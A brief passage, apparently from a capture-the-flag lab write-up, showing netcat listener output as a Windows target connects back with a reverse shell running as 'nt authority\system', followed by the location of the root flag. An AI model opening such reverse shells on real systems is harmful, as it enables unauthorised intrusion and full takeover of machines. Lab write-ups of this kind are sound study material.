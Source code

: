 ```
listening on [any] 9001 ...
connect to [10.10.14.210] from (UNKNOWN) [10.129.77.37] 54582
Microsoft Windows [Version 10.0.20348.4052]
(c) Microsoft Corporation. All rights reserved.

C:\programdata>whoami
whoami
nt authority\system

C:\programdata>
```
Root flag located at: `C:\Users\Administrator\Desktop\root.txt``
